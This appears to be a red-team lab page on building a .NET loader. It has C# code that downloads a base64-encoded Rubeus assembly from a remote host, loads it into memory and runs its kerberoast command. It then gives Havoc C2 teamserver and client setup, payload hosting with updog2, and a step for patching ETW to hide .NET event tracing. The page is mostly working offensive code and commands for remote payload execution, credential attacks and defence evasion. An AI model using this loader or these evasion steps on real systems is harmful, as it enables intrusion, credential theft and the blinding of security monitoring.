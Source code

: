 # Lab - .NET Loader


```csharp
using System;
using System.Net.Http;
using System.Reflection;
using System.Text;
using System.Threading.Tasks;

public class RubeusLoader
{
    public static async Task Main(string[] args)
    {
        string url = "http://10.0.0.7:9090/Rubeus.b64";
        try
        {
            using (HttpClient client = new HttpClient())
            {
                byte[] assemblyBytes = Convert.FromBase64String(await client.GetStringAsync(url));
                Console.WriteLine("[+] Downloaded B64 .net assembly into a string...");
                Console.WriteLine("Press Any Key load assembly into memory...");
                Console.ReadKey();
                Assembly loadedAssembly = Assembly.Load(assemblyBytes);
                Console.WriteLine("[+] loaded assembly into a memory...");
                Console.WriteLine("Press Any Key execute assembly...");
                Console.ReadKey();
                loadedAssembly.GetType("Rubeus.Program")?.GetMethod("Main", BindingFlags.Public | BindingFlags.Static)?.Invoke(null, new object[] { new string[] { "kerberoast", "/stats" } });
            }
        }
        catch (Exception e)
        {
            Console.Error.WriteLine($"Error: {e.Message}");
            if (e.InnerException != null) Console.Error.WriteLine($"Inner Exception: {e.InnerException.Message}");
        }
    }
}
```

---

On your KALI, open a terminal and start your HAVOC Teamserver
```bash
cd /opt/Havoc
./havoc server --profile ./profiles/havoc.yaotl -v
```

Open an additional terminal
```bash
cd /opt/Havoc
.havoc client
```

And finally open a thrid terminal - this is where you will be hosting your payload with `Updog2`

```bash
cd /opt/Havoc/assemblies
updog2
```

```bash
./havoc server --profile ./profiles/havoc.yaotl -v
```

```bash
[+] Serving /opt/Havoc/assemblies...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://10.0.0.7:9090
Press CTRL+C to quit
```


```powershell
logman query providers dotnet-runtime
```

show event trace, then patch ETW, check again - no events should be there

>
> <https://github.com/nullsection/SharpETW-Patch/blob/main/PatchInMemory.cs>
